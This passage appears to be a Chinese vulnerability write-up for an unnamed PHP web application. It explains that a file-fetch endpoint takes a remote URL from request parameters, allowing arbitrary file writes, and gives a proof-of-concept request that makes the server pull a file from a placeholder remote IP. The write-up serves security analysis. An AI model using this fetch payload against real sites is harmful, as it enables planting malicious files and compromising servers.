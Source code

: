![22.png](assets/1704791760-5281aeb25a0eb0502b82bafab4c4ca3e.png)

可以发现上传的数据通过url参数传入，传参方式为$\_GPC，等同与$\_GP  
![23.png](assets/1704791760-dae188f82859f0a60fb7493e7202d45c.png)

所以可以通过url传入远程恶意文件地址，达到文件写入的目的

##### 漏洞验证

根据文件路径构造url  
`/index.php?mod=web&act=public&do=file&op=fetch&url=http://远程IP/info.php`

![24.png](assets/1704791760-22e52967273aba72b0a7208b354d9365.png)
